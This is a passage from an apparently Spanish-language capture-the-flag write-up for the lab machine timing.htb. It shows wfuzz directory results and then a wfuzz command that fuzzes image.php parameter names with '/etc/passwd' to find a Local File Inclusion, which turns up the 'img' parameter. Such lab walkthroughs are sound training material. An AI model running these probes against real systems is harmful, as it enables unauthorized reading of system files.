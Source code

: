 ```console

000001652:   200        115 L    264 W      3933 Ch     "footer"                                                                                                                    
000001877:   302        0 L      0 W        0 Ch        "header"                                                                                                                    
000001985:   200        0 L      0 W        0 Ch        "image"                                                                                                                     
000002017:   302        0 L      0 W        0 Ch        "index"                                                                                                                     
000002362:   302        0 L      0 W        0 Ch        "logout"                                                                                                                    
000002347:   200        177 L    374 W      5605 Ch     "login"                                                                                                                     
000003160:   302        0 L      0 W        0 Ch        "profile"                                                                                                                   
000004207:   302        0 L      0 W        0 Ch        "upload"                                                                                                                    

Total time: 0
Processed Requests: 4614
Filtered Requests: 4606
Requests/sec.: 0
```

Vemos que existen varios archivos con este formato, y que la mayoría tienen un redirect como vimos anteriormente.
Tenemos presente un archivo **`upload.php`** que puede ser interesante, pero no tenemos acceso debido al redirect.

Podemos ver el archivo **`image.php`** que si accedemos a él desde el navegador, nos devuelve un html vacío.
Esto puede deberse a que sea el encargado de mostrar el contenido de otros archivos,
para lo cual podemos pensar en que existe algún parámetro definido, dando lugar a un [Local File Inclusion (LFI)](https://ironhackers.es/herramientas/lfi-cheat-sheet/)

Vamos a comprobar esto con wfuzz:

```console
p3ntest1ng:~$ wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt --hh 0 -u "http://timing.htb/image.php?FUZZ=/etc/passwd" -t 50 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://timing.htb/image.php?FUZZ=/etc/passwd
Total requests: 2588

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                     
=====================================================================

000000360:   200        0 L      3 W        25 Ch       "img"                                                                                                                       

Total time: 0
Processed Requests: 2588
Filtered Requests: 2587
Requests/sec.: 0
```
